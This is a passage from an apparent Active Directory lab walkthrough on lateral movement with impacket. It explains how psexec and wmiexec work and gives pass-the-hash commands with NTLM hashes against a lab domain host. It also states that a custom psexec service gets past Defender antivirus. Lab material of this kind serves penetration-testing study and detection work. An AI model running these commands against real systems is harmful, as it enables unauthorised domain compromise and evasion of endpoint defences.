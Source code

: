 - Before jumping into some lateral move techniques i recommend you to read the following articles about the usual techniques implemented in impacket :
    - [https://www.synacktiv.com/publications/traces-of-windows-remote-command-execution.html](https://www.synacktiv.com/publications/traces-of-windows-remote-command-execution.html)
    - [https://neil-fox.github.io/Impacket-usage-&-detection/](https://neil-fox.github.io/Impacket-usage-&-detection/)
- With impacket we could use :
    - PTH : -hashes
    - PTK : -key <aes128 or 256 key>

### Lateral Move with impacket

#### PsExec

- PsExec:
    - upload executable
    - create a service to run the executable
    - Communicate with the service with namedPipe.
    - Protocol : SMB
```
impacket-psexec -hashes 'aad3b435b51404eeaad3b435b51404ee:cba36eccfd9d949c73bc73715364aff5' NORTH/catelyn.stark@192.168.56.11
```

```
impacket-psexec -hashes ':cba36eccfd9d949c73bc73715364aff5' NORTH/catelyn.stark@192.168.56.11
```
![screenshot](pics/psexec.png)


> PsExec is flagged out of the box by defender and can no longer be used with the RemCom service binary embedded with impacket without raising an alert and fail.

> Impacket give an option to change the service used by psexec with the -file option

- By creating a custom psexec service you can bypass the defender av and get a shell

#### WmiExec

WmiExec (pseudo-shell):

- Create new process thought wmi
- Create file to get the command result, read the file with smb and delete it
- Protocols : DCERPC + SMB
```
impacket-wmiexec -hashes ':cba36eccfd9d949c73bc73715364aff5' NORTH/catelyn.stark@192.168.56.11
```

![screenshot](pics/wmiexec.png)
